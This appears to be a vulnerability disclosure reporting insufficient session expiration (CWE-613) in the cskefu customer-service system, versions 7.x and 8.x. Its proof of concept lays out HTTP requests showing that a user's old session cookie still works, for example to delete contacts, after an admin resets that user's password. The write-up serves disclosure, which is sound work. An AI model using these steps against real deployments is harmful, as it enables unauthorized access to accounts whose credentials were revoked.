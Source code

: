 ## TYPE: Insufficient Session Expiration(CWE-613)
## Date: 5/12/2024

## Basic Information
+ Vendor: [cskefu](https://github.com/cskefu)
+ Homepage: https://github.com/cskefu/cskefu
+ **Affected Version**: v7.x, v8.x

## Tested on: Debian Linux

## Exploit Description
The user can still operate successfully after the admin changes/reset the user's password.
The system is affected by CWE613-Insufficient Session Expiration, which indicates that previous sessions or authentication tokens tied to the old password remain valid and can still be utilized.

### PoC: admin changes/resets user password, user can still operate.
+ **PoC video** [reference](https://1drv.ms/v/s!AmTWEcd1YDpUjg095kRTaxRVZaU8?e=jsHtoK)
+ **Steps**:
1. `admin` login, `user1` login.

`user1` login:
```
POST /login.html HTTP/1.1
username=user1&password=user123
...
response:
HTTP/1.1 302
Set-Cookie: authorization=7a9e00c3aba14cfe9b7577a614030ecf
```
3. `admin` modify `user1`'s password.
   ```
   POST /api/user HTTP/1.1
   Cookie: _ga=GA1.1.841718065.1715481718; SESSION=3f0bb1c3-bf2d-4787-9a50-617e8bc98ee5; authorization=649dda8bf02f44b98c824ae57e2a839b; _ga_SBBX10RKTC=GS1.1.1715495361.3.1.1715495367.
   ...
   {"id":"2c9280868f6aa4a9018f6b5c9b1c008a","username":"user1","uname":"user1","email":"","password":"admin123","repassword":"admin123","mobile":"","ops":"update"}
   ```
4. `user1` still be online, and can operate successfully with the old session/token, like deleting contacts.
<img width="1104" alt="image" src="https://github.com/menghaining/PoC/assets/32480426/058d3cce-1e40-4c74-b1be-d4bf85114a55">

```
GET /apps/contacts/delete.pug?id=95027150558c4e25a58d3907ee6fda99&ckind= HTTP/1.1
Cookie: _ga=GA1.1.1578594732.1715483346; SESSION=0dcc6821-75df-46ae-a5ce-27e217915007; authorization=7a9e00c3aba14cfe9b7577a614030ecf; _ga_SBBX10RKTC=GS1.1.1715493138.2.1.1715495577.0.0.0
...
```
<img width="723" alt="image" src="https://github.com/menghaining/PoC/assets/32480426/75300894-db56-4844-935e-c65b4a5e8dff">



